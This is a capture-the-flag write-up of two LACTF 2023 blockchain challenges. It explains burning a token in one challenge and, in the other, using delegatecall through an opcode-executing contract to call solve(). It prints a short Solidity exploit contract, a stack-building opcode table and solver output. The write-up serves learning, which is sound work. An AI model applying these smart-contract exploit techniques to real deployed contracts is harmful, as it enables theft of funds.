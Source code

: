 # LACTF 2023 - Blockchain Writeups
## breakup

Source:
+ [Setup.sol](https://github.com/m1dm4n/CTF-WriteUp/tree/main/2023/lactf/breakup/Setup.sol)
+ [Friend.sol](https://github.com/m1dm4n/CTF-WriteUp/tree/main/2023/lactf/breakup/Friend.sol)

For this challenge, the main contract check if "You" is in `friendNames` of `Friend` contract so you need to delete the name "You" from the mapping. Solution is use the `burn` function of it since the key of "You" in the mapping is easy to get just from reading the source (call `tokenOfOwnerByIndex` with `somebodyYouUsedToKnow` address and value `0`)

My scipt: [solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/breakup/solve.py)

## evmvm 

Source:
+ [Setup.sol](https://github.com/m1dm4n/CTF-WriteUp/tree/main/2023/lactf/evmvm/Setup.sol)
+ [EVMVM.sol](https://github.com/m1dm4n/CTF-WriteUp/tree/main/2023/lactf/evmvm/EVMVM.sol)


This challenge is harder since you need to understand how the solidity work in lower level of Solidy language (like assembly). The main contract requires the sender of who ever want to solve it is its deployed contract `EVMVM`. It means that we need to make the deployed `EVMVM` contract call the function `solve` of `Setup` contract to win.

![image](https://user-images.githubusercontent.com/92845822/218942091-143e4300-bffc-4543-952e-3c46f37838dd.png)

So our target will be the "EVMVM" contract, which have a function `enterTheMetametaverse` to executes a single opcode every times we send to it. This problem leads to a thing that we cannot use the memory of contract because memory is like RAM, the function end the ram clean. This is really a pain since if we want to make a call a function of another contract, we need a calldata contains singnature of function we want to call but look at this first.

`call` opcode document:

![image](https://user-images.githubusercontent.com/92845822/218943394-cb6c4195-023c-4dc8-ad29-031a31d41efd.png)

`call` opcode in `EVMVM` contract:

![image](https://user-images.githubusercontent.com/92845822/218943728-17b8208e-ef0e-4ec3-ba61-3135b8c2cc4e.png)

The call opcode requires the offset of calldata in memory and this offset is got from `stack`. We can save anything we want to the memory easily using `mstore` opcode but in the next calling it just disappear. I had been stuck from this step so i just do some guessing method but it didn't work because i'm still very new to blockchain. After the ctf ends, i learned that `delegatecall` is our solution. [What is DelegateCall in solidity](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c)

Basically the `delegatecall` is something like this: 

> When contract A executes delegatecall to contract B , B's code is executed. with contract A's storage, `msg.sender` and `msg.value`. So if contract B make a call to contract C, the `msg.sender` will be A's `msg.sender`


With this, we can create our malicious contract that have a function to call function `solve` of `Solve` contract, then trigger a `delegatecall` from `EVMVM` contract to our contract and the `msg.sender` will be `EVMVM` contract. Our contract:

```solidity
contract Exploit {
    address immutable setup;

    constructor(address _setup) {
        setup = _setup;
    }
    fallback() external {
        setup.call(abi.encodeWithSignature("solve()"));
    }
}
```

> `fallback` is the function that will be called when the contract don't understand the signature function of when it's empty 

The harder thing is done, other part is just stack knowledge and programming skill. My solution is:

1. Push `36` to stack because the function still have a parameter `arg` and its index is 36 in the `calldata` we send to contract (the first 4 bytes is function signature and the next 32 bytes is the `opcode` parameter)
2. Now we can use `CALLDATALOAD` opcode to push anything we want to stack from `arg` param so just push all parameters of `DELEGATECALL`: `gas, address, 0, 0, 0, 0` (Read the document of its).
3. Send the opcode of `DELEGATECALL` and we are done!

> note1: the leftmost is the highest value in stack

> note2: `address` is our deployed contract

> note3: When call a function the EVM read parameters from right to left and then call it so we will need to push in reverse order

| Opcode name | Stack  |
| :---:       | :---- |
| CALLVALUE    | 0 |
| ISZERO       | 1 |
| DUP1         | 1 1 |
| SHL          | 2 |
| DUP1         | 2 2 |
| CALLDATASIZE | 68 2 2 |
| SWAP1        | 2 68 2 |
| DIV          | 34 2 |
| ADD          | 36 |
| DUP1         | 36 36 |
| CALLDATALOAD | gas 36 |
| SWAP1        | 36 gas |
| CALLDATALOAD | `address` `gas` |
| CALLVALUE    | 0 `address` `gas` |
| CALLVALUE    | 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 0 `address` `gas` |

Then sending the opcode of `delegatecall` and we are done. Output:

```python
[+] Pushing delegatecall's params to stack: Done
[DEBUG] stack size: 6
[DEBUG] 0x0 : 0x00000000000000000000000000000000000000000000000000000000000186a0
[DEBUG] 0x1 : 0x0000000000000000000000007ee24f4f9d8f0d6f5321228ebb0529422b0e813a
[DEBUG] 0x2 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x3 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x4 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x5 : 0x0000000000000000000000000000000000000000000000000000000000000000
[*] Setup.functions.isSolved().call() = True
[+] Successfully exploiting!
```

My script: [solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/evmvm/solve.py)
